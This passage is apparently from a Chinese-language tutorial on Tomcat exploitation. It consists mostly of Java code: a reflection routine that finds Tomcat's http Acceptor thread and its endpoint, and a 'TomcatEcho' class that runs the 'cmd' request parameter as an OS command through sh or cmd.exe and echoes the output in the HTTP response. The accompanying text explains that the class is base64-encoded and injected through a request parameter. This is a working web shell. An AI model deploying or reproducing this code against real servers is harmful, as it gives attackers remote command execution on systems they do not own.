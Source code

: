```java
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = getField(thread, "target");
                if (!(target instanceof Runnable)) {
                    try {
                        Object target2 = getField(thread, "this$0");
                        target = thread;
                    } catch (Exception e) {
                        continue;
                    }
                }
                Object jioEndPoint = getField(target, "this$0");
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                    } catch (Exception e) {
                        continue;
                    }
                }
                return jioEndPoint;
            }
        }
        return null;
    }
}
```
TomcatEcho类代码实现：
该类的字节码会被base64编码后，放在shell请求参数中。在TD类中获取该参数并加载
```java
import java.io.InputStream;
import java.util.Scanner;

public class TomcatEcho {
    public boolean equals(Object req) {
        Object[] context=(Object[]) req;
        org.apache.catalina.connector.Request request=(org.apache.catalina.connector.Request)context[0];
        org.apache.catalina.connector.Response response=(org.apache.catalina.connector.Response)context[1];
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                response.setContentType("text/html;charset=utf-8");
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().println("----------------------------------");
                response.getWriter().println(output);
                response.getWriter().println("----------------------------------");
                response.getWriter().flush();
                response.getWriter().close();
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
```